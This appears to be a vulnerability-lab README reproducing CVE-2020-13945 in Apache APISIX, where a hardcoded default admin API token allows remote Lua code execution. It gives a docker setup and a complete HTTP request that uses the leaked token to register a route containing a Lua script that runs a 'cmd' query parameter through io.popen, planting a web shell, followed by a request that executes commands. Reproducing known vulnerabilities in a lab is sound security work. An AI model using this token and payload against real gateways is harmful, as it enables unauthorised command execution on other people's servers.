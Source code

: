 # Apache APISIX Hardcoded API Token Leads to RCE (CVE-2020-13945)

[中文版本(Chinese version)](README.zh-cn.md)

Apache APISIX is a dynamic, real-time, high-performance API gateway. Apache APISIX has a default built-in API token `edd1c9f034335f136f87ad84b625c8f1` that can be used to access all the admin API, which leads to the remote LUA code execution through the `script` parameter added in the 2.x version.

References:

- https://apisix.apache.org/docs/apisix/getting-started
- https://github.com/apache/apisix/pull/2244
- https://seclists.org/oss-sec/2020/q4/187

## Vulnerability Environment

Execute following command to start a Apache APISIX server 2.11.0 (this vulnerability hasn't been fixed until newest version, might be not considered fixing by vendor):

```
docker compose up -d
```

After the server is started, you can see a default 404 page at `http://your-ip:9080`.

## Vulnerability Reproduce

Add a new evil router rule to the APISIX through admin api with default token:

```
POST /apisix/admin/routes HTTP/1.1
Host: your-ip:9080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
X-API-KEY: edd1c9f034335f136f87ad84b625c8f1
Content-Type: application/json
Content-Length: 406

{
    "uri": "/attack",
"script": "local _M = {} \n function _M.access(conf, ctx) \n local os = require('os')\n local args = assert(ngx.req.get_uri_args()) \n local f = assert(io.popen(args.cmd, 'r'))\n local s = assert(f:read('*a'))\n ngx.say(s)\n f:close()  \n end \nreturn _M",
    "upstream": {
        "type": "roundrobin",
        "nodes": {
            "example.com:80": 1
        }
    }
}
```

![](1.png)

Then, use this evil router to execute arbitrary commands:

```
http://your-ip:9080/attack?cmd=id
```

![](2.png)
